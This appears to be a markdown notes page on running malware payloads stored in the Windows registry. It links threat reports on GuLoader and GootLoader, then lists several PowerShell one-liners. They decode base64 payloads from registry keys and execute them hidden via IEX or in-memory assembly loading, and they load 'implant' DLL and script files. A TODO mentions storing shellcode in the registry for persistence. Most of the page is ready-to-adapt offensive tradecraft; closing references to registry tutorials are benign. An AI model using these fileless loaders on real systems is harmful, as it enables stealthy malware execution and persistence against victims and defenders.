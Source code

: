 # Registry

TODO: Other ideas is to use registries to include shellcode and execute it.

https://blog.sonicwall.com/en-us/2022/06/guloader-a-fileless-shellcode-based-malware-in-action/

```
%COMSPEC% /b /c start /b /min powershell.exe -nop -w hidden -c "sleep 0; IEX([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String((Get-Item 'HKLM:SOFTWARE\<registry_key>').GetValue('<registry_value_name>'))))"
```

```powershell
powershell -Command " [Reflection.Assembly]::Load([System.Convert]::FromBase64String((Get-ItemProperty 'HKCU:\Software\Classes\<registry_key>').b64encAssembly)); [CMD_exec.Class1]::RunCMD()"

powershell IEX ([Text.Encoding]::ASCII.GetString([Convert]::FromBase64String((get-itemproperty 'HKCU:\Software\Classes\<registry_key>').b64encPS)))

powershell -Command " [Reflection.Assembly]::Load(([System.IO.File]::ReadAllBytes('C:\path\to\implant.dll')); [CMD_exec.Class1]::RunCMD();"

powershell -Command " [Reflection.Assembly]::LoadFile('C:\path\to\implant.dll'); [CMD_exec.Class1]::RunCMD();"

powershell IEX (Get-Content C:\path\to\implant.ps1 -Raw)
```

https://az4n6.blogspot.com/2018/06/malicious-powershell-in-registry.html

adding registry persistence by spliting the shellcode hexadecimal

https://thedfirreport.com/2024/02/26/seo-poisoning-to-domain-control-the-gootloader-saga-continues/

---
## References

### Tenouk

- [Tenouk: Windows Process & Threads - A Supplementary Note](https://www.tenouk.com/chijklsupp.html)

- [Tenouk: Registry - Part 1](https://www.tenouk.com/ModuleO.html)

- [Tenouk: Registry - Part 2](https://www.tenouk.com/ModuleO1.html)

- [Tenouk: Registry - Part 4](https://www.tenouk.com/ModuleP1.html)

- [Tenouk: Windows Registry - A Supplementary Note](https://www.tenouk.com/copregsupp.html)